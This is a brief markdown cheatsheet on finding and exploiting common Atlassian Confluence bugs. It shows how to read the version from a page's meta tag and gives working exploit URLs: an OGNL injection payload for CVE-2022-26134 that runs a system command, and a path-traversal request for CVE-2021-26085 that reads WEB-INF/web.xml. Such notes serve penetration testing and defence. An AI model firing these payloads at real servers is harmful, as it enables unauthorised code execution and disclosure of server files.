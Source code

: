 # Confluence Common Bugs

## Introduction
What would you do if you came across a website that uses Confluence?

## How to Detect
```
https://example.com/secure/Dashboard.jspa
https://example.com/login.jsp
```

1. Find the related CVE by checking Confluence version
* How to find the Confluence version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the Confluence version. If you found outdated Confluence version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-6258/Atlassian-Confluence.html)

Some example CVE:

- CVE-2022-26134 (Remote Code Execution)
```
https://example.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

- CVE-2021-26085 (Arbitrary File Read)
```
https://example.com/s/test/_/;/WEB-INF/web.xml
```